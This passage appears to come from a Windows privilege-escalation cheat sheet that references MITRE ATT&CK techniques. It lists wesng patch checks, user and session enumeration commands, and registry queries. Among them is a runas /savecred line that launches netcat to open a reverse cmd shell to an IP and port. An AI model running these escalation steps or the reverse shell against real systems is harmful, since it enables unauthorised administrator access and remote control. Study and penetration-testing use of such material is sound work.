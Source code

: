 You can try to see if [wesng](https://github.com/bitsadmin/wesng) say something interesting.
Wesng is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities.

```bash
wes.py systeminfo.txt -p KB4487044 KB4477029 KB4480979
```

For more information about that technique refer to [T1082 - System Information Discovery](https://attack.mitre.org/techniques/T1082/)

#### Users information

```bash
net users # Enumerate the different users on the system
net user *user* # Display information about the given user
wmic useraccount get name,sid,fullname # Displays users using WMI
quser # Identify active user sessions on a computer.
wmic netlogin list /format:List # Display logon information
Get-WmiObject Win32_LoggedOnUser # Display logon users
Get-LocalUser | ft Name, Enabled, LastLogon
Get-ChildItem C:\Users -Force | select Name
klist sessions # Displays a list of logon sessions on this computer.
```

1) Check for recently run commands and recent documents

```bash
req query HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
req query HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU

dir "C:\Users\USR\AppData\Local\Microsoft\Windows\FileHistory\Data"
```

2) Check if any user has the **passwordreq** flag set to **no**.

*[/passwordreq](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc771865(v=ws.11)?redirectedfrom=MSDN)* specifies whether a user account must have a password.

```bash
net user USER | findstr "required"
```

If it set to **no**, you could try to use the **/savecred** parameter of the **runas**.

This could be very interesting where it could be done an an account with administrator rights.

```bash
runas /user:Administrator /savecred "nc.exe -c cmd.exe IP PORT"
```

3) Check for the differents "User Shell Folders" configured

```bash
reg query "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders"
```

:white_check_mark: How to protect against or detect that technique:
